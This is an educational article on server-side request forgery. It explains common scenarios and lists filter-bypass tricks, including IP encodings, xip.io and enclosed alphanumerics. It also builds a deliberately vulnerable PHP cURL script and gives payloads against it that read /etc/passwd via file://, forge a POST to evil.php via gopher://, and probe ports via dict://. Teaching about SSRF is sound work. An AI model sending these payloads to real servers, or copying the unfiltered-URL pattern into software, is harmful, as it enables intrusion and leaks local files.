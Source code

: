 # SSRF Server-Side Request Forgery

The `SSRF` server-side request forgery vulnerability, also known as `XSPA` cross-site port attack, is a security vulnerability in which an attacker constructs exploitative code that causes the server to initiate exploit requests. In general, the applications targeted by `SSRF` attacks cannot be accessed from the external network, so attackers need to leverage the target server to initiate the attack. The target server may have access to both the internal and external networks, allowing attackers to exploit internal network applications through the target host.

## Description
`SSRF` involves forging server-side requests to bypass client data limitations. Typically, attackers interact with the internal network by forging server requests, thereby gaining access to and potentially attacking the internal network. `SSRF` is often combined with various attack methods. The SSRF attack uses insecure servers within a domain as proxies, which is similar to cross-site request forgery attacks using web clients. For example, browsers within a domain can act as proxies for attackers. In some cases, server-side programs need to retrieve data from other server applications, such as retrieving images and data. However, if the server does not filter or restrict the target addresses of its requests, hackers can exploit this loophole to request arbitrary server resources, including applications hidden within the internal network. Many believe that servers within the internal network are immune to hacker attacks and thus neglect to patch vulnerabilities or perform version upgrades. The prevalence of weak passwords within the internal network renders it vulnerable to exploitation through `SSRF`. While `SSRF` vulnerabilities typically appear in the context of `HTTP/HTTPS`, similar vulnerabilities can also be found in `TCP Connect`, which can be used to detect the activity status of internal network IPs and the availability of open ports, although the impact of such vulnerability is relatively small.

### Common Scenarios for SSRF Vulnerabilities
Any place that can initiate network requests to the external network may potentially contain an `SSRF` vulnerability.
* Remote server resource requests such as `Upload from URL, Import & Export RSS Feed`.
* Built-in database features in `Oracle, MongoDB, MSSQL, Postgres, CouchDB`.
* Receiving emails from other mail servers in `Webmail` such as `POP3, IMAP, SMTP`.
* File processing, encoding, and metadata handling in applications like `ffmpeg, ImageMagic, DOCX, PDF, XML`.
* Sharing web pages via `URL` addresses.
* Unpublished `API` implementations and other functionalities that use `URL` calls.

### Exploitation of SSRF Vulnerabilities
* Scanning ports on the external network, server's internal network, and local system to retrieve service `banner` information.
* Attacking applications running on the internal network or locally, such as overflow attacks.
* Fingerprinting internal `web` applications by accessing default files.
* Attacking `web` applications both internally and externally using `GET` parameters, such as `Struts2` and `sqli`.
* Reading local files using the `file` protocol, and other such exploits.

### Bypass Techniques
#### Localhost Attack

```
http://127.0.0.1:80
http://localhost:22
```

#### Utilizing @ Symbol to Bypass

```
http://example.com@127.0.0.1
# Here, example.com can be replaced with any domain.
```

#### Shortened URL to Bypass

```
http://127.0.0.1 can be transformed into http://suo.im/5UHEvD
# There are several URL shortening services available, such as http://tool.chinaz.com/tools/dwz.aspx
```

#### Special Domain Name Bypass

```
http://127.0.0.1.xip.io/
http://www.margin.com.127.0.0.1.xip.io/
```

#### Utilizing Enclosed Alphanumerics

```
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### Use period replace dot to bypass

```
127.0.0.1 becomes 127。0。0。1
```

#### Bypass using other bases

```
127.0.0.1
Octal format: 0177.0.0.1
Hexadecimal format: 0x7F.0.0.1
Decimal integer format: 2130706433 (convert to hexadecimal, then convert to decimal)
Hexadecimal integer format: 0x7F000001
There is also a special abbreviation mode, for example, the IP 127.0.0.1 can be written as 127.1, and the IP 10.0.0.1 can be written as 10.1
```

#### Special domain name bypass

```
DNS resolution
http://127.0.0.1.xip.io/
# Will resolve to the local 127.0.0.1
```

## Experimental target machine example
Using `PHP` to build a target machine as an example, write the following code in `test.php`, in fact, an important principle to avoid this type of attack is to filter user input and never trust user input.

```php
<?php
// Create a new cURL resource
$ch = curl_init();
// Set the URL and related options
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
curl_setopt($ch, CURLOPT_HEADER, false);
// Fetch the URL and pass it to the browser
curl_exec($ch);
// Close cURL resources and release system resources
curl_close($ch);
```

### Use of file protocol
In the above example, sending a `GET` request can obtain sensitive file information.

```
http://192.168.163.150/test.php?url=file:///etc/passwd
```


### Use of gopher protocol
The `gopher` protocol was introduced earlier than the `http` protocol and is now not commonly used, but in the exploitation of `SSRF` vulnerabilities, `gopher` can be considered versatile because it can use `gopher` to send requests in various formats, solving the problem of the vulnerability not being in the `GET` parameter.   
Basic protocol format: `URL:gopher://<host>:<port>/<gopher-path>`.  
The following request can send a `POST` request, with the value of the parameter `cmd` being `balabal`. When constructing the `gopher` request, you need to double URL encode the line feed and carriage return `%250d%250a`.

```
http://192.168.163.150/test.php?url=gopher://192.168.163.1:80/_POST%20/evil.php%20HTTP/1.1%250d%250aHost:%20192.168.163.1%250d%250aUser-Agent:%20curl/7.43.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=balabala
```

### Application of dict protocol
The `dict` protocol is a dictionary server protocol, usually used to allow clients to access more dictionary sources during use. However, in `SSRF`, if you can use the `dict` protocol, you can easily obtain information about the services running on the target server port, such as service versions.

```
http://192.168.163.150/test.php?url=dict://192.168.163.1:3306/info 
```

## Daily Question

```
https://github.com/WindrunnerMax/EveryDay
```

## References

```
https://zhuanlan.zhihu.com/p/116039804
https://www.freebuf.com/column/157466.html
https://juejin.cn/post/6844903824948199431
https://www.cnblogs.com/bmjoker/p/9614789.html
https://blog.csdn.net/nz9611/article/details/96011013
https://zh.wikipedia.org/wiki/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0
```